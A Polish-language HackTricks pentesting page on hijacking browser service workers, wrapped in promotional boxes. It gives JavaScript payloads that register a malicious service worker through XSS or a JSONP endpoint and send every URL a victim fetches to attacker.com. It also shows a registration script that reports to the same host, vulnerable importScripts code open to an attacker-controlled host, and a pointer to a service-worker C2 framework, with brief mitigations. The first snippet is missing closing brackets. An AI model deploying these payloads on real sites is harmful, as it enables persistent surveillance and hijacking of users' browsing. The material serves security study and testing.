# Nadużywanie pracowników usługowych



<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Czy pracujesz w **firmie z branży cyberbezpieczeństwa**? Chcesz zobaczyć swoją **firmę reklamowaną na HackTricks**? lub chcesz mieć dostęp do **najnowszej wersji PEASS lub pobrać HackTricks w formacie PDF**? Sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* **Dołącz do** [**💬**](https://emojipedia.org/speech-balloon/) [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**repozytorium hacktricks**](https://github.com/carlospolop/hacktricks) **i** [**repozytorium hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Grupa Try Hard Security**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Podstawowe informacje

**Pracownik usługowy** to skrypt uruchamiany przez przeglądarkę w tle, niezależnie od jakiejkolwiek strony internetowej, umożliwiający funkcje, które nie wymagają strony internetowej ani interakcji użytkownika, zwiększając tym samym możliwości **przetwarzania offline i w tle**. Szczegółowe informacje na temat pracowników usługowych można znaleźć [tutaj](https://developers.google.com/web/fundamentals/primers/service-workers). Wykorzystując pracowników usługowych w podatnej domenie internetowej, atakujący mogą przejąć kontrolę nad interakcjami ofiary ze wszystkimi stronami w tej domenie.


### Sprawdzanie istniejących pracowników usługowych

Istniejące pracowniki usługowe można sprawdzić w sekcji **Pracownicy usługowi** w zakładce **Aplikacja** w **Narzędziach deweloperskich**. Inną metodą jest odwiedzenie [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) dla bardziej szczegółowego widoku.

### Powiadomienia push

**Uprawnienia do powiadomień push** bezpośrednio wpływają na zdolność **pracownika usługowego** do komunikacji z serwerem bez bezpośredniej interakcji użytkownika. Jeśli uprawnienia są odmówione, ogranicza to potencjał pracownika usługowego do stanowienia ciągłego zagrożenia. W przeciwnym razie udzielenie uprawnień zwiększa ryzyko bezpieczeństwa, umożliwiając odbieranie i wykonywanie potencjalnych exploitów.

## Atak tworzenia pracownika usługowego

Aby wykorzystać tę podatność, musisz znaleźć:

* Sposób na **przesłanie dowolnych plików JS** na serwer i **XSS do załadowania pracownika usługowego** przesłanego pliku JS
* **Podatne żądanie JSONP**, w którym można **manipulować wynikiem (za pomocą dowolnego kodu JS)** oraz **XSS**, aby **załadować JSONP z ładunkiem**, który **załaduje złośliwego pracownika usługowego**.

W poniższym przykładzie przedstawię kod do **zarejestrowania nowego pracownika usługowego**, który będzie nasłuchiwał zdarzenia `fetch` i będzie **wysyłał na serwer atakującego każdy pobrany URL** (to jest kod, który musiałbyś **przesłać** na **serwer** lub załadować za pomocą **podatnej odpowiedzi JSONP**):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
A oto kod, który **zarejestruje pracownika** (kod, który powinieneś móc wykonać, wykorzystując **XSS**). W tym przypadku zostanie wysłane żądanie **GET** do serwera **atakującego**, **informujące**, czy **rejestracja** pracownika usługi zakończyła się sukcesem, czy nie:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
W przypadku wykorzystania podatnego punktu końcowego JSONP należy umieścić wartość wewnątrz `var sw`. Na przykład:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Istnieje **C2** dedykowane do **eksploatacji pracowników usługowych** o nazwie [**Shadow Workers**](https://shadow-workers.github.io), które będzie bardzo przydatne do nadużywania tych podatności.

Dyrektywa **24-godzinnego bufora** ogranicza żywotność złośliwego lub skompromitowanego **pracownika usługowego (SW)** do maksymalnie 24 godzin po naprawie podatności XSS, zakładając status klienta online. Aby zminimalizować podatność, operatorzy witryn mogą obniżyć czas życia skryptu SW (TTL). Deweloperów zaleca się również utworzenie [**przełącznika wyłączającego pracownika usługowego**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) dla szybkiego dezaktywowania.

## Nadużywanie `importScripts` w SW za pomocą DOM Clobbering

Funkcja **`importScripts`** wywołana z pracownika usługowego może **importować skrypt z innej domeny**. Jeśli ta funkcja jest wywoływana z **parametrem, który atakujący mógłby** zmodyfikować, mógłby **importować skrypt JS z jego domeny** i uzyskać XSS.

**To nawet omija zabezpieczenia CSP.**

**Przykładowy podatny kod:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Za pomocą DOM Clobbering

Aby uzyskać więcej informacji na temat tego, czym jest DOM Clobbering, sprawdź:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Jeśli adres URL/domena, z której SW korzysta do wywołania **`importScripts`**, znajduje się **wewnątrz elementu HTML**, można go **zmodyfikować za pomocą DOM Clobbering**, aby sprawić, że SW **załaduje skrypt z własnej domeny**.

Aby zobaczyć przykład, sprawdź link referencyjny.

## Referencje

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Czy pracujesz w **firmie zajmującej się cyberbezpieczeństwem**? Chcesz zobaczyć, jak Twoja **firma jest reklamowana w HackTricks**? lub chcesz mieć dostęp do **najnowszej wersji PEASS lub pobrać HackTricks w formacie PDF**? Sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* **Dołącz do** [**💬**](https://emojipedia.org/speech-balloon/) [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**repozytorium hacktricks**](https://github.com/carlospolop/hacktricks) **i** [**repozytorium hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
